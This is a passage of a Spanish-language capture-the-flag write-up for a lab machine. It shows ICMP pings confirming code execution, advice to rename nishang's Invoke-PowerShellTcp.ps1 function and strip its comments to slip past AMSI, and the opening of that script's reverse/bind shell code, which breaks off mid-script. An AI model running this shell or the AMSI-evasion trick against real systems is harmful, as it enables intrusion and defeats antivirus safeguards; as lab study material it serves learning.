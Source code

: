 ```powershell
[2023/04/02 09:05:58:8202] U: <<< ChildProcess
```

y al ponernos en escucha con `tcpdump` recibimos la traza `icmp`

```bash
❯ tcpdump -i tun0 -n icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:59:01.108853 IP 10.10.10.179 > 10.10.16.6: ICMP echo request, id 1, seq 1, length 40
15:59:01.108917 IP 10.10.16.6 > 10.10.10.179: ICMP echo reply, id 1, seq 1, length 40
15:59:02.150656 IP 10.10.10.179 > 10.10.16.6: ICMP echo request, id 1, seq 2, length 40
15:59:02.150666 IP 10.10.16.6 > 10.10.10.179: ICMP echo reply, id 1, seq 2, length 40
```

Lo siguiente sera ganar acceso a traves de una consola interactiva, para ello usaremos el script `Invoke-PowerShellTcp.ps1` del repositorio de `nishang`

* [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)


Ahora para poder realizar `AMSI bypass`, debemos editar el script cambiando el nombre de la funcion y borrando los comentarios para evitar problemas en la ejecucion.


```powershell
function dalecontodo 
{ 
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}
```